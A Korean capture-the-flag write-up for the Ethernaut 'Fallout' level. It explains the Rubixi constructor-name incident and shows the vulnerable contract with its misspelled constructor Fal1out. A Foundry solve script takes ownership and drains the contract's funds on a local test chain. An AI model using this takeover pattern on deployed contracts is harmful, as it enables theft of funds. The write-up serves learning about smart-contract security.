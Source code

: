 # 지문

그거 좀 어이없지 않나요? 현실 세계의 컨트랙트는 이보다 훨씬 더 안전하고, 해킹하기도 훨씬 더 어려워야 할 것 같죠?

음... 꼭 그렇지만은 않습니다.

이더리움 생태계에서 유명한 사례 중 하나로 **Rubixi 사건**이 있습니다. 이 회사는 원래 \*\*‘Dynamic Pyramid’\*\*라는 이름이었는데, 이름을 \*\*‘Rubixi’\*\*로 바꾸면서도 컨트랙트의 **생성자(constructor) 함수 이름을 변경하지 않은** 채로 배포했습니다:

```solidity
contract Rubixi {
  address private owner;
  function DynamicPyramid() { owner = msg.sender; }
  function collectAllFees() { owner.transfer(this.balance) }
  ...
```

이 허점을 이용해 공격자가 **예전 생성자 함수(DynamicPyramid)를 호출해 컨트랙트의 소유권을 탈취**했고, 결국 자금을 빼돌릴 수 있었습니다.

네, 스마트 컨트랙트 세계에서는 이렇게 **큰 실수**도 충분히 일어날 수 있습니다.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import "openzeppelin-contracts-06/math/SafeMath.sol";

contract Fallout {
    using SafeMath for uint256;

    mapping(address => uint256) allocations;
    address payable public owner;

    /* constructor */
    function Fal1out() public payable {
        owner = msg.sender;
        allocations[owner] = msg.value;
    }

    modifier onlyOwner() {
        require(msg.sender == owner, "caller is not the owner");
        _;
    }

    function allocate() public payable {
        allocations[msg.sender] = allocations[msg.sender].add(msg.value);
    }

    function sendAllocation(address payable allocator) public {
        require(allocations[allocator] > 0);
        allocator.transfer(allocations[allocator]);
    }

    function collectAllocations() public onlyOwner {
        msg.sender.transfer(address(this).balance);
    }

    function allocatorBalance(address allocator) public view returns (uint256) {
        return allocations[allocator];
    }
}
```


# 풀이 
그냥 지문에 보이는 함수를 호출하면됨.

여기서 문제 풀이와 관련은 없지만 한가지 TMI로 이야기하자면 solidity의 과거 버전에서는 지금 0.8.0버전 대에서 `constructor` keyword를 사용해서 생성자를 작성하지않았음

`function [contract name]` 으로 생성자를 작성했음

근데 버전업이 되면서 바뀌었으나 여전히 `function [contract name]` 으로 생성자를 만들어야되는줄 알았던 개발자들이 있었고 그로인해 자금이 털린적도 있긴함 


```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import {Script} from "forge-std/Script.sol";
import "forge-std/console.sol";

interface IFallout {
    function Fal1out() external payable;
    function collectAllocations() external;
    function owner() external view returns (address);
}
contract SolveScript is Script {
    address public target = 0x5E3d0fdE6f793B3115A9E7f5EBC195bbeeD35d6C;

    function setUp() public {}

    // forge script -vvv script/Solve.s.sol --broadcast --tc SolveScript --legacy --private-key 0x5de4111afa1a4b94908f83103eb1f1706367c2e68ca870fc3fb9a804cdab365a --rpc-url http://localhost:8545
    function run() public {
        vm.startBroadcast();
        IFallout fo = IFallout(target);

        console.log("owner before poc : %s", fo.owner());
        console.log("target balance before poc : %d", target.balance);
        fo.Fal1out{value:100}();
        fo.collectAllocations();

        console.log("owner after poc : %s", fo.owner());
        console.log("target balance after poc : %d", target.balance);
        vm.stopBroadcast();
    }
}
```